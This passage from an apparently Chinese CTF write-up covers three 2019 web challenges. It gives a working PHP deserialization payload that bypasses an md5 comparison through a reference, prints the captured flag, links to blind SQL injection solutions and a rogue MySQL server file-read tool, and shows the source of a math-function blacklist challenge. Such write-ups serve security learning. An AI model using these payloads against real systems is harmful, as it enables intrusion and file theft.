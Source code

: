 加几个斜杠,成功绕过.

4. 绕过md5比较.这里有两种方法,一种是直接碰撞,另外一种就是`引用`,使token变为token_flag的引用.

   最终payload:

`///index.php?file=hint.php&payload=O:6:"Handle":2:{s:14:"%00Handl
e%00handle";O:4:"Flag":3:{s:4:"file";s:8:"flag.php";s:5:"token";s:32:"c4ca
4238a0b923820dcc509a6f75849b";s:10:"token_flag";R:4;}}`

`flag{570a8aea-e399-4e02-be6f-9496a70d6cb7}`

### 0x07 全宇宙最简单的SQL

确实很简单,但是比赛的时候没做出来,深深的认识到了自己的不足.

看到wp的时候,环境已经关了,也没有截图了.

先拿常用的sql关键字的字典爆破一下,看看哪些东西被过滤了.

顺便手测了一下,基本确定是个盲注.当最终拼接语句无错误时无论结果如何均为 `登录失败`.
当最终语句有错时返回为 `数据库操作失败`.

在网上看到两种解法.

1. 时间盲注.

   直接贴大佬的链接了[ROIS](<https://xz.aliyun.com/t/4906#toc-7>)和[Zedd](https://blog.zeddyu.info/2019/05/06/2019ciscn/#全宇宙最简单的SQL),两位大佬用的方式稍微有不同

2. 布尔盲注

   还是贴链接吧,[ctfwp.com](https://www.ctfwp.com/articals/2019national.html#全宇宙最简单的sql)

   [Mochazz](https://mochazz.github.io/2019/04/22/第12届全国大学生信息安全竞赛Web题解/),这位大佬用的方法和我差不多,但是我在中间出了点小问题,卡住了.通过`and`短路来使`pow(9999,100)`报错

接下来就是mysql蜜罐读文件了,刚前两天的DDCTF2019就出来过,又来了,但是我根本就没做到这里(捂脸)

<https://github.com/allyshka/Rogue-MySql-Server>

github上有个工具.

### 0x08 love_math

这题我也没做出来,也是卡在中间某一步,痛苦~

右键源代码可以看到一个可用函数的白名单,基本都是`math`库里的.

```php
<?php
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
```